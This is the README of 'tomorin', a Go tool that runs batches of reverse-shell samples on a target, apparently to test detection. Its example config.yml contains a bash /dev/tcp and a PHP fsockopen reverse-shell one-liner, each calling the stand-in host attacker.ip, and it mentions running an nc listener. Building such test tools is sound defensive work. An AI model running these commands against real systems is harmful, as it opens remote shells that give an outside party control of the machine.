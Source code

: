 # tomorin 批量执行反弹 Shell 样本

## Build

```bash
go build -o ./bin/tomorin
```

## Usage

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin
Run multiple reverse shell samples

Usage:
  tomorin [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  run         Run reverse shell samples on the target

Flags:
  -h, --help   help for tomorin

Use "tomorin [command] --help" for more information about a command.
```

编写 `config.yml`，把反弹Shell样本写入 `samples` 字段，把依赖项写入 `depends` 字段，比如

```yaml
depends:
- php
samples:
- name: 001
  script: bash -i >& /dev/tcp/attacker.ip/4242 0>&1
- name: 002
  script: php -r '$sock=fsockopen("attacker.ip",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> 目前还没有反弹shell server的功能，所以需要用nc拉起来单独的server。

确认所有依赖都无误之后，执行所有反弹Shell样本

```bash
./bin/tomorin run -c config.yml
```

## TODO

- [ ] Reverse shell server
    - [ ] TCP
    - [ ] UDP
